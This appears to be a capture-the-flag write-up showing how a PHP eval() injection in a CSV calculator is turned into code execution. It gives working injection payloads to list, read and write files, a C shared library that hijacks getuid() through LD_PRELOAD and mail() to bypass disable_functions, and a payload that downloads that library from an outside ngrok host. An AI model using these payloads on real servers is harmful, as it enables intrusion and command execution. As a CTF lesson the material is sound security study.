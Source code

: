 ```yaml
---
description: 'PHP eval(), LD_PRELOAD RCE'
---
```


# C'mon See My Vulns

## Problem

Government of Rhiza has been creating some tools to make the slave labor more efficient. Laura scanned all IPs addresses from Rhiza's ASN and found one of these tools. Your goal is to get into the server to be able to collect the IP addresses that connects to it. Once collected, we can find out the approximate location of these machines.

{% file src="../../.gitbook/assets/c\_mon\_see\_my\_vulns.tar.gz" caption="C\'mon See My Vulns" %}

## Solution

We are given the following source code:

```php
<?php

function do_calcs($csv){
  preg_match_all("/{{([^}]*)}}/", $csv, $matches);

  foreach ($matches[1] as &$val){
    $csv = str_replace("{{" . $val . "}}", eval("return " . $val . ";"), $csv);
  }

  return $csv;
}

/* main */
if ($_SERVER['REQUEST_METHOD'] == "POST"){
  if (isset($_POST['csv'])){
    // do the math calculations
    $csv = trim(do_calcs($_POST['csv']));
    $csv = str_replace("\r\n", "\n", $csv); // replace CRLF to LF

    $result = csv_parse($csv);
    print_r($result);
  }
  else{
    die("Missing param csv");
  }
}

?>
```

The `eval()` function being used on unsanitised user input. This should already ring some alarm bells.

```php
foreach ($matches[1] as &$val){
    $csv = str_replace("{{" . $val . "}}", eval("return " . $val . ";"), $csv);
  }
```

There is also an `info.php` page. We can take a look at the `disable_functions` configuration to see which functions are disabled. Functions that can execute OS commands, like `exec`, `system`, etc. are not allowed.

![](../../.gitbook/assets/d6f39e6c6fc64cad969ef277fad78ed2.png)

The `open_basedir` setting restricts which files PHP can read/write to. We can see that we are restricted to `/var/www/html`.

![](../../.gitbook/assets/0769c1e345c34812838dcb44e3b9385b.png)

Now that we know which functions are **not** allowed, let's look at what we **are** allowed to do. For the purposes of testing our POST requests, I used an API client called [Postman](https://www.postman.com/).

List files:

```text
csv:price,tax↵200,{{implode('', scandir('.'))}}
```

Read arbitrary files:

```text
csv:price,tax↵200,{{file_get_contents('index.php')}}
```

Write arbitrary files:

```text
csv:price,tax↵200,{{file_put_contents('test', 'test')}}
```

Of course, the files we can work with will be restricted by the `open_basedir` setting. Yet, we know that the flag is in `/root`.

However, from the docker file, we know that there is a `readflag` binary. This will allow us to get the flag contents.

```text
# Setup readflag binary
COPY ./readflag.c readflag.c
RUN gcc readflag.c -o readflag && chmod 4777 readflag && rm readflag.c
```

We could bypass the restrictions using a custom `.so` file, and changing the `LD_PRELOAD` environment variable. This only requires that we are able to upload arbitrary files, set environment variables, and call the `mail()` function.

Here's a reference: [https://www.programmersought.com/article/20535983859/](https://www.programmersought.com/article/20535983859/)

The basic theory is this:

1. When we set the `LD_PRELOAD` environment variable to our custom `.so` file, our library takes precedence and gets loaded first, overriding the standard functions. 

2. `mail()` runs `/usr/sbin/sendmail` through `/bin/sh`. When this happens, functions like `getuid()` are called. 

3. If we override `getuid()`, we can execute arbitrary code.

Create a `hack.c` file as follows:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


void payload() {
    system("touch /var/www/html/success");
}


uid_t getuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

Compile the shared library:

```text
gcc -c -fPIC hack.c -o hack
gcc -shared hack -o hack.so
```

Open a Python HTTP server and create a `ngrok` tunnel to transfer the file.

![](../../.gitbook/assets/96b14a281f3b45f989521fc4a3820ff9.png)

Transfer the `hack.so` to a writeable directory with `file_put_contents` and `fopen`:

```text
csv:price,tax↵200,{{file_put_contents('/var/www/html/hack.so', fopen('http://631b40831847.ngrok.io/hack.so', 'r'))}}
```

Use the `LD_PRELOAD` environment variable to force the loading of our custom `getuid()` function. Then, call `mail()` - this will run `/usr/sbin/sendmail` through `/bin/sh`, which calls the `getuid()` function. 

Note that all three have to be done in one request - the environment variable will only exist for the duration of the current request.

```text
csv:price,tax↵200,{{putenv('LD_PRELOAD=/var/www/html/hack.so') . getenv('LD_PRELOAD') . mail('a','a','a','a')}}
```

From the Docker logs, we could see that `/bin/sh` was indeed executed.

![](../../.gitbook/assets/87d987bae57c4a128130539a4592d99d.png)

Check that it worked:

```text
csv:price,tax↵200,{{implode('', scandir('.'))}}
```

We see that the `success` file has been created, so our exploit was successful.

![](../../.gitbook/assets/51fe9e03f4294702829802470545aa02.png)

Now, it's time to modify the payload to achieve our goals. We will call the provided `readflag` binary, and store the results in `output.txt`.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


void payload() {
    system("/opt/readflag > /var/www/html/output.txt");
    return;
}

uid_t getuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

Now, after running the above steps again, we should have the flag in `output.txt`.

```text
csv:price,tax↵200,{{file_get_contents('output.txt')}}
```

Using `file_get_contents`, we can get the output.

![](../../.gitbook/assets/1a24c055e2c147b9816aababb1da218c.png)

